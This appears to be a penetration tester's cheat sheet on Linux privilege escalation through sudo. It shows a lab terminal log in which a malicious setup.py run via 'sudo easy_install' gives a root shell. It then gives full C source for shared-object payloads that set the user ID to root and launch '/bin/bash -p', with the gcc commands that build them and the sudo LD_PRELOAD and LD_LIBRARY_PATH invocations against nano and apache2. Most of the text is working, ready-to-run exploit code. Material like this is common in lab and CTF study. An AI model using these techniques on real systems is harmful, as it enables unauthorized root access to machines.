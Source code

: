 ```
developer@updown:/tmp/0xdf$ echo -e 'import os\n\nos.system("/bin/bash")' > setup.py

# Now I just call easy_install pointing to that directory:

developer@updown:/tmp/0xdf$ sudo easy_install /tmp/0xdf/
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing 
Writing /tmp/0xdf/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/0xdf/egg-dist-tmp-ObdjVa
root@updown:/tmp/0xdf# id
uid=0(root) gid=0(root) groups=0(root)
```

- Privilege Escalation by SUDO (Shared object Injection through env variable `LD_PRELOAD` and `LD_LIBRARY_PATH`)
    - `nano exploit.c`
        ```
        #include <stdio.h>
        #include <stdlib.h>
        #include <sys/types.h>
        void _init() {
            unsetenv("LD_PRELOAD");
            setuid(0);
            setgid(0);
            system("/bin/bash -p");
            }   
        ```
        -  `gcc -fPIC -shared -nostartfiles -o ./libncursesw.so.6 ./exploit.c` > `sudo LD_PRELOAD=./libncursesw.so.6 nano`

    - `nano /tmp/preload.c`
        ```
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
                unsetenv("LD_PRELOAD");
                setresuid(0,0,0);
                system("/bin/bash -p");
        }

        ```
        - `gcc -shared -fPIC -nostartfiles -o /tmp/preload.so /tmp/preload.c` > `sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2`

    - `ldd /usr/sbin/apache2` > `nano /home/user/tools/sudo/library_path.c`
        ```
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
                unsetenv("LD_LIBRARY_PATH");
                setresuid(0,0,0);
                system("/bin/bash -p");
        }
        ```
        - `gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c` > `sudo LD_LIBRARY_PATH=/tmp apache2`
